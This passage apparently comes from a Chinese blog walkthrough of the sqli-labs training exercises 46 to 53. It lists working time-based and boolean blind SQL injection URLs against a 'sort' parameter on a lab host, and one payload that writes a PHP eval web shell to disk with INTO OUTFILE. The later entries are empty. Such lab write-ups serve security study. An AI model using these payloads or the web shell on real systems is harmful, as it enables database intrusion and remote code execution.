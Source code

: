 ````select “<?php @eval($_POST[‘giantbranch’]);?>” into outfile “XXX\test.php” ````当这里要获取到网站的在系统中的具体路径（绝对路径）
和之前遇到的有点不一样
可以利用http://202.206.96.155:8081/sqli-labs/Less-46/?sort=if(1=1,1,2)

### 第四十七题
http://202.206.96.155:8081/sqli-labs/Less-47/?sort=2′ and if(1=1,1,sleep(1)) and ‘1’=’1
基于布尔的实现不了了，只能用时间啦啦啦 by the way 我不喜欢用报错注入，以上的很多题目都可以用报错注入的，我没有提供报错注入的方式，因为实际当中，一般网站是不会给那么详细的错误回显的

### 第四十八题
http://202.206.96.155:8081/sqli-labs/Less-48/?sort=2 and if(1=1,1,sleep(1))
不知道为什么基于布尔的不管用来了，，，

### 第四十九题
http://202.206.96.155:8081/sqli-labs/Less-49/?sort=2′ and if(1=2,1,sleep(1)) and ‘1’=’1

### 第五十题
http://202.206.96.155:8081/sqli-labs/Less-50/?sort=2 and if(1=2,1,sleep(1))
嗯，，，出题人能不能用点心呢，，，为什么方法都差不多嘞，，，

### 第五十一题
http://202.206.96.155:8081/sqli-labs/Less-51/?sort=2′ and if(1=2,1,sleep(1)) and ‘1’=’1
，，，，无力吐槽，，，

### 第五十二题：，，，，

### 第五十三题：，，，，
